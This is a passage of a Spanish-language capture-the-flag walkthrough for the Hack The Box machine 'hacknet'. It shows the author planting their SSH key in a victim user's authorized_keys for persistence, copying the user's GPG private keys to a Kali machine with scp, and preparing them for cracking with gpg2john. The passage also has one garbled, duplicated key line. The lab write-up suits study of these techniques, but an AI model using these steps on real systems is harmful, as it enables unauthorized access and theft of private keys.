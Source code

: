 ```bash
-rw------- 1 sandy sandy 1280 Sep  5 11:33 trustdb.gpg                                                                                               
sandy@hacknet:~/.gnupg$ 
```

Antes de seguir estabilizamos el shell conectandonos por ssh:

1. Copiamos nuestro public rsa
```bash
sandy@hacknet:~$ mkdir .ssh && cd .ssh                                                                    
mkdir .ssh && cd .ssh                                                                                     
sandy@hacknet:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFPL/ryp9GqCnHH8IqZ8/NcWJNwuBXMq1BJyAVIen9ps7ZwnGcppvIZvjZX7yapFniFzlDWd0+a8/KmQmgfNZkSf7gqd6MH3oya+iNE9PXqyKA8btqBVOdV0jnPj9HYnzJ5oP+46ZS3oYBCyUJ3CKRzjexQPiXz9u+0bvoXkEUlDPpKrQliGeqdBXleJqoX6IQUOX/UUrQAV4d1w2EqNrVwKQnJthr43zUd30w+guy3NJj2HsYQoSkKz0x3ka9mone/rTiNFe8qFdSL+IO1a3/FtUNfH+cCSalYtUxxE/KmXaUvcBTcBIbyGwv9dD1F1Z65R73vd9OSBrCwv+fpgyf8jN2RsbiB3r0c+mq
<3r0c+mqYahXE8t6z0Phu0= root@kali" > authorized_keys
```
2. Nos conectamos:

```bash
ssh sandy@hacknet.htb                       
Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 25 23:26:11 2025 from 10.10.14.22
sandy@hacknet:~$ 
```
* Descargamos a kali las claves:

```bash
# Copiamos a kali
scp sandy@hacknet.htb:/home/sandy/.gnupg/private-keys-v1.d/* GPG-keys 
0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key                                       100% 1255     2.0KB/s   00:00    
EF995B85C8B33B9FC53695B9A3B597B325562F4F.key                                       100% 1255     2.0KB/s   00:00    
armored_key.asc                                                                                   100% 2088     4.2KB/s   00:00    
armored_key.asc                                                                                          100% 2088     2.8KB/s   00:00  
```

* Generamos un hash para crackear y obtener un password si lo hay

```bash
gpg2john armored_key.asc > hash

File armored_key.asc
```
